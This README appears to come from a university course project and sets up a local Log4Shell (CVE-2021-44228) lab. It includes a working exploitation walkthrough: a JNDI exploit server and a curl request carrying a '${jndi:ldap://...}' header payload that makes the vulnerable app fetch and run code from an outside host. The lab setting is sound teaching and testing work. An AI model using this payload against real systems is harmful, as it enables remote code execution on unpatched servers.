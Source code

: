 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)

## Setting up the exploit

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

To breach the app we just need to call the app and introduce the correct call as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#Notice that we are including the endpoint given by the exploitation tool. 
#The name of the header does not matter because the app will print all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```
This will bring the same html message that is rendered in the browser

```bash
  <h1 style="color: #5e9ca0;">Log4Shell</h1><h4>Vulnerability - Exploitation and Mitigation</h4><p>API Version: 1.0</p>
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server in the exploitation tool which executed the given command at start up

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/welk1n/JNDI-Injection-Exploit
https://github.com/christophetd/log4shell-vulnerable-app
